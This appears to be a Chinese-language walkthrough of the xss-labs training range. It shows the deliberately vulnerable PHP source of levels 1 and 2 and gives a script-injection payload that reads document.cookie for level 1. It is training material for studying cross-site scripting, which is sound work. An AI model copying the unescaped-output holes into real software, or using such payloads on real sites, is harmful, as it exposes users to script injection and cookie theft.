 # 搭建xss-labs

## 源码

https://github.com/do0dl3/xss-labs

## 参考

https://blog.csdn.net/wo41ge/article/details/107459332

# 访问靶场

http://192.168.31.193:8080

## level1

http://192.168.31.193:8080/level1.php?name=test

```php
<body>
<h1 align=center>欢迎来到level1</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center><img src=level1.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
```

### 没有任何过滤，get型
`?name=<script>alert(document.cookie)</script>`
## level2

http://192.168.31.193:8080/level2.php?keyword=test

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
</form>
</center>';
?>
```
